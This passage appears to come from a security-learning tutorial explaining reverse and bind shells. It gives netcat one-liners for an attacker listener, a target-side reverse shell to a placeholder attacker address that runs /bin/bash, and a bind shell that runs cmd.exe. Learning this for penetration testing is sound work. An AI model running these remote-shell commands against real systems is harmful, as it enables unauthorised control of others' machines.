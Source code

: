Generally, reverse shells are easier to learn and debug.

-----

### Reverse Shell Example

The reverse shell is more common. On the attacking machine, we might run a command such as:
```console
~$ sudo nc -lvnp 443
```
Meanwhile, on the target, we might execute a command such as: 
```console
~$ nc <LOCAL_IP> <PORT> -e /bin/bash
```
albeit not explicitly; usually executed via some code injection, etc.

Successful execution of the commands lead to something like

![Reverse Shell Example](./img/reverse_shell.png "Reverse Shell Example")

On the left, we have the reverse shell listener on the attacking machine. On the right, is the target machine. 

Notice that after running the command on the right, the listener receives a connection. When the `whoami` command is executed on the target, we see that we are executing commands as the target user.

> The main point here is that we are *listening* on our own attacking machine, and sending a connection *from* the target.

-----

### Bind Shell example

The bind shell is less common, but still very useful. On the target, we will need to start a listener, and at the same time tell it to execute `cmd.exe`:
```powershell
> nc -lvnp <PORT> -e "cmd.exe"
```
On the attacking machine, we will execute something like
```console
~$ nc <MACHINE_IP> <PORT>
```

We will end up with something that looks like

![Bind Shell example](./img/bind_shell.png "Bind Shell example")
